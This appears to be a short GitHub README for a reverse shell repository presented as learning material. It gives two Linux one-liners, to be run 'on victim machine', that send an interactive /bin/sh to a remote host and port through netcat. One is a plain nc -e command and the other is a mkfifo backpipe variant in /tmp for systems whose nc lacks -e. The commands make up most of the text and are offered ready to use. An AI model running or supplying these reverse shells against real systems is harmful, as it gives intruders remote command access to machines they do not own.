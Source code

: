 # Reverse_shell

Reverse shell programs on Windows and Linux for learning.

To make simple reverse shell on linux, run like this↓ on victim machine
```
nc -e /bin/sh <HOST> <PORT>
```
However, newer linux don't have -e option of ```nc``` command, so
we create "backpipe" with ```mkfifo``` in ```/tmp``` because pretty much any account is allowed to write there. 

```
mkfifo /tmp/p; nc <HOST> <PORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```
### Credit:
[cocomelonc](https://github.com/cocomelonc/)

Thank you for nice article!!
https://cocomelonc.github.io/tutorial/2021/09/11/reverse-shells.html


